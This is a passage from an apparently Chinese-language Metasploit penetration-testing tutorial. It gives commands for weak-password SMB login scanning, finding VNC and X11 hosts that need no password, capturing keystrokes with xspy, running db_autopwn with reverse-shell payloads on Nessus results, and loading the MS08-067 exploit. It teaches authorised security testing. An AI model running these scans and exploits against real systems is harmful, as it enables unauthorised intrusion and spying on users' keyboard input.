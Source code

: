 SMB弱口令:

```
msf> use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.111-222
set SMBUser Administrator
set SMBPass admin
run
```

VNC空口令：

```
msf> use auxiliary/scanner/vnc/vnc_none_auth
set RHOSTS 192.168.1.111
run
```

Open X11空口令：

```
msf> use auxiliary/scanner/x11/open_x11
set RHOST 192.168.1.0/24
set THREADS 50
run
```

当扫描到此漏洞的主机后可以使用xspy工具来监视对方的键盘输入：

```
cd /pentest/sniffers/xspy/
./xspy –display 192.168.1.125:0 –delay 100
```

### 5、使用Autopwn处理扫描结果：

autopwn选项：e执行attack   t查看匹配模块   r使用reverse shell作为payload   x基于漏洞筛选模块  p基于端口筛选模块

```
db_connect postgres:toor@127.0.0.1/msf
db_import /root/nessus.nbe
db_autopwn –e –t –r –x –p
```

* -e 针对符合条件的目标加载所有exploit -t显示所有匹配的exploit -r使用反弹shell
* -x 基于漏洞筛选模块 -p基于端口筛选模块

## 五．基础溢出命令

### 1、基本命令：

查看可用溢出模块`show exploits`
查看辅助模块`show auxiliary`  包括扫描器，拒绝服务模块，fuzzer工具或其他。
查看可用选项`show options`

加载模块后退出此模块 back

例子：
```
msf> use windows/smb/ms08_067_netapi
back
```
